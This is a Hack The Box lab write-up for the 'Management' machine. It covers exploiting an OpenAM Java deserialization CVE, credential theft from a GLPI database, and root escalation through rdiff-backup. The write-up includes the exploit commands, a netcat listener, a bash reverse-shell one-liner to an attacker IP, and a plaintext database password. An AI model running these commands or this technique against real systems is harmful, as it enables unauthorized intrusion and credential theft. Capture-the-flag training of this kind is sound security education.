




# HTB — Management

**Complete penetration testing writeup documenting the path from unauthenticated access to root.**


---

## Machine Information

| Field | Value |
|---|---|
| Difficulty | Easy (Linux) |
| Target IP | `10.129.165.204` |
| Hostnames | `management.htb`, `sso.management.htb` |

---

## 1. Enumeration

### Nmap Scan



The scan was used to identify open ports, service banners, and default NSE script results. The investigation identified the following services and technologies:

| Port / Service | Component |
|---|---|
| HTTPS | nginx 1.24.0 |
| Main website | management.htb |
| SSO application | OpenAM at sso.management.htb |
| Directory service | OpenDJ |
| LDAP-related ports | 4444 and 50389 |
| SSH | Remote shell service |
| Database | MariaDB 10.11.14 (listening locally) |

---

## 2. HTTPS Website and Virtual Hosts

The HTTPS certificate contained the following names:

- `management.htb`
- `sso.management.htb`

These were added to the local hosts file to access the web applications.

---

## 3. Web Application Enumeration

Exploring the main website revealed that the environment contained an **OpenAM** authentication service, with the login interface accessible at:

```
https://sso.management.htb/openam/XUI/#login/
```

Rather than relying on directory brute-forcing, the frontend resources and JavaScript files served by the application were inspected directly. This identified:

| Field | Value |
|---|---|
| Product | OpenAM Community Edition |
| Version | 16.0.5 |

This version information became the key finding that directed vulnerability research, leading to the discovery of a matching CVE.

### Vulnerability Details

| Field | Value |
|---|---|
| CVE | CVE-2026-33439 |
| Product | OpenIdentityPlatform OpenAM |
| Affected versions | Up to and including 16.0.5 |
| Fixed version | 16.0.6 |
| Vulnerability type | Insecure Java deserialization |
| CWE | CWE-502 |
| Severity | Critical |

The vulnerability involves unsafe deserialization of user-controlled data through the `jato.clientSession` HTTP parameter, allowing an unauthenticated attacker to potentially execute arbitrary commands on the server. This was directly relevant, since the target was running OpenAM 16.0.5 — within the affected version range.

---

## 4. Exploitation

The identified vulnerability (**CVE-2026-33439**) was used against the OpenAM service.



**PoC repository used:** `infernosalex/CVE-2026-33439-Python-PoC`

### Detection — Proof of RCE

```bash
python3 ./exploit.py \
  --url "https://sso.management.htb/openam/ui/PWResetUserValidation" \
  --timeout 8 \
  'id'
```

### Reverse Shell

**Terminal A — listener**

```bash
rlwrap -cAr nc -lvnp 4444
```

**Terminal B — exploit**

```bash
ATTACKER_IP=10.10.15.212
python3 ./exploit.py \
  --url "https://sso.management.htb/openam/ui/PWResetUserValidation" \
  --timeout 8 \
  "bash -c 'bash -i >& /dev/tcp/${ATTACKER_IP}/4444 0>&1'"
```

---

## 5. Local Discoveries

**GLPI config found at** `/opt/glpi/config/`:

| File | Permissions | Owner | Notes |
|---|---|---|---|
| `config_db.php` | 0644 | www-data | DB credentials |
| `glpicrypt.key` | 0644 | www-data | 32 raw bytes |
| `oauth.pem` / `oauth.pub` | — | — | OAuth keypair |

**`/opt/glpi/config/config_db.php`:**

```php
public $dbhost = '127.0.0.1';
public $dbuser = 'glpi';
public $dbpassword = '8rhu0L6Pw4Y7';
public $dbdefault = 'glpidb';
```

**Users identified on the host:**

| User | UID | Shell | Notes |
|---|---|---|---|
| `openam` | 996 | `/usr/sbin/nologin` | Service account |
| `owen` | 1000 | `/bin/bash` | `/home/owen` not readable from `openam` |

---

## 6. Credential Extraction from GLPI

Initial connection attempt (failed):

```bash
mysql -h 127.0.0.1 -u glpi -p glpidb
# ERROR 1045 (28000): Access denied for user 'glpi'@'localhost'
```

Working connection (via local socket):

```bash
mysql -uglpi -p'8rhu0L6Pw4Y7' -S /run/mysqld/mysqld.sock glpidb
```

### LDAP Bind Credential

```sql
SELECT id, name, host, rootdn, rootdn_passwd FROM glpi_authldaps;
```

**Result:**

| id | name | host | rootdn | rootdn_passwd |
|---|---|---|---|---|
| 1 | Management Directory | sso.management.htb | `cn=svc-glpi,ou=services,dc=management,dc=htb` | `avrqW65aZWKzLAKWhPxZGn1eLj3yYAnwUp08mEazsJUWfI5cqbaP6vM12w0p/ykpmyO3Pw==` |

The key was then decrypted from base64, yielding the user's password — which was used to retrieve the user flag.



---

## 7. Privilege Escalation — rdiff-backup Sudo Wildcard



**Technique breakdown:**

- `--remote-schema` tells `rdiff-backup` to start a "remote server" by executing any command supplied to it — and since that command begins with `sudo`, the server side runs **as root**.
- The extra `--restrict-path %s` appended at the end matches the trailing `*` in the sudoers rule. Because `rdiff-backup` keeps the *last* occurrence of a repeated flag, this overrides the intended `/opt/backup` jail with `/`.
- The root-side server then mirrors `/root` into `/tmp/root_backup` — a directory readable by `owen`, exposing the root flag.

---

## Summary

| Stage | Technique |
|---|---|
| Initial access | Unauthenticated RCE via OpenAM deserialization (CVE-2026-33439) |
| Lateral movement | GLPI DB credentials → LDAP bind password (base64 + decrypt) |
| Privilege escalation | Sudo misconfiguration in `rdiff-backup` (`--remote-schema` + wildcard path override) |
